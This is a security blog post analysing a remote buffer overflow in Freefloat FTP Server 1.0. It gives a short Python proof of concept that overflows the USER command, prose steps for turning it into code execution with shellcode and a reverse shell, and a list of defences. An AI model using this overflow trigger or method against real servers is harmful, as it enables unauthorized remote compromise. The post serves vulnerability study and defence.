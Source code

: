 ```yaml
---
title: "[remote] Freefloat FTP Server 1.0 - Remote Buffer Overflow"
date: 2025-06-22
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/Freefloat FTP Server 1.0-exploit.png
---
```


## Summary

Freefloat FTP Server 1.0 - Remote Buffer Overflow

## Technical Analysis

# Freefloat FTP Server 1.0 - Remote Buffer Overflow Vulnerability Analysis

## Technical Executive Summary

The Freefloat FTP Server 1.0 has been identified to contain a critical remote buffer overflow vulnerability. This flaw arises from improper handling of input data, allowing attackers to execute arbitrary code on the affected system. The vulnerability is exploitable remotely, making it a significant threat to systems running this version of the server software. Exploitation of this vulnerability could lead to a complete compromise of the targeted system, enabling unauthorized access, data exfiltration, or further network penetration.

## Proof of Concept (PoC)

Below is a Python script demonstrating a basic proof-of-concept exploit for the Freefloat FTP Server 1.0 remote buffer overflow vulnerability. This script sends a crafted payload to the FTP server to trigger the overflow condition.

```python
import socket

# Target configuration
target_ip = "192.168.1.100"
target_port = 21

# Crafting the payload
buffer = b"A" * 1000  # Adjust the size based on the overflow point
payload = b"USER " + buffer + b"\r\n"

# Establishing connection and sending payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.recv(1024)  # Receive the banner
    s.send(payload)
    print("[+] Payload sent successfully.")
except Exception as e:
    print(f"[-] Could not connect to the target: {e}")
finally:
    s.close()
```

**Note:** The buffer size and payload need to be adjusted based on the exact overflow point and the shellcode to be used for exploitation. This PoC is for educational purposes only.

## Offensive Security Insights

### Exploitation Techniques

1. **Buffer Overflow Fundamentals:**
   - The vulnerability stems from the lack of bounds checking on user inputs, leading to a buffer overflow. Attackers exploit this by overwriting the stack with a payload that includes a return address pointing to malicious code.

2. **Crafting the Exploit:**
   - Identify the exact point of overflow using tools like Metasploit's pattern_create and pattern_offset.
   - Inject shellcode into the payload that performs the desired actions (e.g., opening a reverse shell).
   - Use techniques such as NOP sleds to increase the reliability of the exploit.

3. **Remote Code Execution:**
   - Once the buffer is overflowed, control is transferred to the attacker's shellcode, allowing remote code execution.
   - This can be leveraged to escalate privileges, maintain persistence, or pivot to other systems within the network.

### Defensive Measures

1. **Patch Management:**
   - Ensure that all systems are running the latest version of Freefloat FTP Server or alternative software with known vulnerabilities patched.

2. **Input Validation:**
   - Implement robust input validation and sanitization to prevent buffer overflow conditions.
   - Utilize secure coding practices to ensure input data is properly handled.

3. **Network Security:**
   - Deploy intrusion detection and prevention systems (IDPS) to monitor and block suspicious traffic patterns associated with buffer overflow exploits.
   - Restrict access to the FTP server using firewall rules and VPNs to limit exposure to potential attackers.

4. **Security Hardening:**
   - Enable stack canaries, ASLR (Address Space Layout Randomization), and DEP (Data Execution Prevention) to mitigate the risk of successful buffer overflow attacks.
   - Regularly conduct security audits and penetration testing to identify and remediate vulnerabilities.

By understanding and addressing the technical details of this vulnerability, security professionals can better protect their systems against exploitation attempts.

📎 [Original Source](https://www.exploit-db.com/exploits/52323)

---

_This article was written by sleep33._
